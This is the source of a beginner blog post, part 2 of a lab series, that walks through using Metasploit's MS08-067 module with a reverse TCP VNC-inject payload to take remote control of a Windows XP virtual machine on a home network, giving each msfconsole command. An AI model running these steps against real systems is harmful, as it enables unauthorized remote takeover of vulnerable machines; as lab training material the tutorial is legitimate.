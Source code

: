 ```yaml
---
layout: post
title:  "First Hack Part 2 (Searching for Targets and their Weaknesses)"
date:   2018-04-16 14:56:03 -0400
categories: jekyll update
---
```


<br>[Part 1 (Installing The Virtual Network)][part-1]
<br>[Part 3 (Exploiting The Vulnurability)][part-2]

Legal Disclosure: Don't do this on networks other than your own without written consent from the network administrator. Otherwise, you would be committing an illegal act.

<b>Roadmap</b>

Now comes the fun part. Using a tool called Metasploit in order to break into the Windows XP computer with a VNC. a VNC is simply a window that displays the target desktop. It allows you to control it the same way you are controlling your virtual machine. There are 4 simple steps to this.

Searching for the exploit command

Loading the exploit (Code to exploit the weakness)

Loading the payload (Software used to give you controll)

Set the Settings and "pwn the box"

<b>Searching for the Exploit Command</b>

The first thing we need to do is use the code identified in part 2. MS08_067 is the exploit we will use. But how do we load it? We need to get the command from the rapid7 database. Go to...

[https://www.rapid7.com/db][rapid7]

Type "MS08_067" in the search field and make sure "Metasploit Moduel" is selected in the dropdown box.

Look at the code under "Moduel Name." We will use that once we load metasploit

<b>Loading the Exploit and Payload</b>

[Offensive Security: Metasploit Commands][commands]

[Offensive Security: Exploits][exploits]

[Offensive Security: Payloads][payloads]

Open a terminal and load Metasploit's terminal interface with the following command

{% highlight ruby %}
msfconsole
{% endhighlight %}

Use the exploit we found in Rapid7 with the "use" command.

{% highlight ruby %}
use exploit/windows/smb/ms08_067_netapi
{% endhighlight %}

There are many useful payloads. I will recomend we use a reverce TCP payload in order to gain a VNC session. Load the payload with the "set" command.

{% highlight ruby %}
set PAYLOAD windows/vncinject/reverse_tcp
{% endhighlight %}

<b>Settings</b>

We want to see if we have the correct settings. Use the following command.

{% highlight ruby %}
show options
{% endhighlight %}

You should get something that looks like this

![image tooltip](/blog/images/ms08_067/msfconsole_show_options1.JPG)

You may have noticed a few lines are missing. Specificly LHOST and RHOST. LHOST is the local host (your PC) and RHOST is the remote host (target PC)

Lets fill those in with the set command

{% highlight ruby %}
set RHOST 192.168.1.244
#I am using the ip of my own target computer. Use the IP for your own
{% endhighlight %}

Before we fill in LHOST, we need to the the IP of your own Linux machine.

Press Ctrl+Shift+T in order to bring up a new terminal tab

{% highlight ruby %}
sifconfig
{% endhighlight %}

You should get something like this. I highlighted the IP in yellow. Your IP will be in the same spot but most likley different.

![image tooltip](/blog/images/ms08_067/ifconfig.JPG)

{% highlight ruby %}
set LHOST 192.168.1.48
#use the IP you just looked up in ifconfig
{% endhighlight %}

We filled in all the empty fields so we should be good right? Almost. By default, the VNC will only let you spy on the target machine. We want to enable control. Make one more setting.

{% highlight ruby %}
set ViewOnly false
{% endhighlight %}

Run the show options again and make sure you have these settings.

![image tooltip](/blog/images/ms08_067/msfconsole_show_options2.JPG)

<b>Hack It!</b>

Finally, run the command

{% highlight ruby %}
exploit
{% endhighlight %}

Congradulations, you did it!!

![image tooltip](/blog/images/ms08_067/owned.JPG)



[part-1]: MS08_067_Part_1.html
[part-2]: MS08_067_Part_2.html
[rapid7]: https://www.rapid7.com/db
[commands]: https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/
[exploits]: https://www.offensive-security.com/metasploit-unleashed/exploits/
[payloads]: https://www.offensive-security.com/metasploit-unleashed/payloads/

